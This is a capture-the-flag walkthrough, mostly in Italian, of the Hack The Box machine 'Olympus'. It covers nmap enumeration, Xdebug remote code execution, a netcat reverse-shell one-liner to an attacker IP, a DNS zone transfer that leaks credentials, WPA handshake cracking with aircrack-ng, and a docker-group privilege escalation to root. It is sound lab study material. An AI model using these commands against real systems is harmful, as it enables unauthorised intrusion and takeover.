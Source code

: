 #+TITLE: HTB - Olympus
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** leo@kali:~/repos/olympus$ nmap -p- olympus
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-14 09:33 CEST
Nmap scan report for olympus (10.129.73.72)
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   filtered ssh
53/tcp   open     domain
80/tcp   open     http
2222/tcp open     EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds

  #+end_example
*** leo@kali:~/repos/olympus$ nmap -sC -sV olympus
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-14 09:33 CEST
Nmap scan report for olympus (10.129.73.72)
Host is up (0.050s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following finger
prints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.92%I=7%D=6/14%Time=62A839EE%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0\x0c\
SF:0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=6/14%Time=62A839E9%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.13 seconds

  #+end_example
** XDebug (RCE)
   Il server in ascolto nella porta 80 ci ritorna un header

   #+begin_example
   Xdebug: 2.5.5
   #+end_example

   Andando a vedere qualche articolo:

   - https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/unix/http/xdebug_unauth_exec
   - https://www.exploit-db.com/exploits/44568
   - https://paper.seebug.org/397/
   - https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/

   L'idea è quella di sfruttare XDEBUG per ottenere una RCE nel
   seguente modo:

   1. Prima lancio il python script preso dal terzo articolo

      #+begin_src sh
python2 xdebug_rce.py       
      #+end_src

   2. Successivamente invio una richiesta al server settando il
      parametro ~XDEBUG_SESSION_START~
      
      #+begin_src sh
curl http://olympus?XDEBUG_SESSION_START=hello      
      #+end_src

   3. Mi metto in ascolto sulla porta ~4321~
      
      #+begin_src sh
nc -lvnp 4321      
      #+end_src

   4. Infine posso eseguire dei comandi utilizzando la shell spawnata
      dallo script ~xdebug_rce~

      #+begin_src sh
      >> system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.16 4321 >/tmp/f")
      #+end_src

** dig
*** leo@kali:~/repos/olympus$ dig @10.129.73.72 ctfolympus.htb axfr
    #+begin_example
; <<>> DiG 9.17.21-1-Debian <<>> @10.129.73.72 ctfolympus.htb axfr
; (1 server found)
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 52 msec
;; SERVER: 10.129.73.72#53(10.129.73.72) (TCP)
;; WHEN: Tue Jun 14 10:11:23 CEST 2022
;; XFR size: 15 records (messages 1, bytes 475)
    
    #+end_example

** knock
   Fare port knocking con ~knock~

   #+begin_src sh 
sudo apt-get install knockd   
   #+end_src

   #+begin_src sh
knock olympus 3456 8234 62431   
   #+end_src

* PrivEsc
** Creds
   #+begin_example
  icarus:Too_cl0se_to_th3_Sun
  prometheus:St34l_th3_F1re!
   #+end_example

** docker #1 (xdebug)
*** /home/zeus/airgeddon/captured/papyrus.txt
    #+begin_example
Captured while flying. I'll banish him to Olympia - Zeus    
    #+end_example
*** captured wifi traffic    
    Nella cartella ~airgeddon~ era presente un file ~captured.cap~. 

    #+begin_src sh
aircrack-ng -a 2 -w ~/repos/wordlists/rockyou.txt -l file captured.cap     
    #+end_src

    Alla fine l'idea era quella di utilizzare l'SSID dell'access
    point, ~Too_cl0se_to_th3_Sun~, per connetterci come ~icarus~ alla
    porta ssh 2222.

** docker #2 (icarus)
   
*** /home/icarus/help_of_the_gods.txt 
    #+begin_example
    Athena goddess will guide you through the dark...

    Way to Rhodes...
    ctfolympus.htb
    #+end_example

** host machine (olympus)
   Per diventare root mi devo accorgere che tra i gruppi in cui è
   inserito l'utente ~prometheus~ c'è anche il gruppo ~docker~.

   Posso quindi creare una shell ~sh~ con il ~setUID~ bit on di ~root~
   tramite ~docker~ nel seguente modo

   #+begin_src sh
docker run -v $PWD:/tmp crete /bin/sh -c "cp /bin/sh /tmp && chown root.root /tmp/sh && chmod a+s /tmp/sh"      
   #+end_src

   Una volta eseguito il comando posso ottenere una shell da root come segue
   
   #+begin_example
   $PWD/sh
   #+end_example

   Per spostare da ~euid=0~ a ~uid=0~ posso utilizzare il seguente python
   payload

   #+begin_example
# id
uid=1000(prometheus) gid=1000(prometheus) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker),1000(prometheus)   
   #+end_example
   
   #+begin_src sh
python -c 'import pty; import os; os.setuid(0); pty.spawn("/bin/bash")'     
   #+end_src

   #+begin_example
bash-4.4# id
uid=0(root) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)   
   #+end_example

* Flags
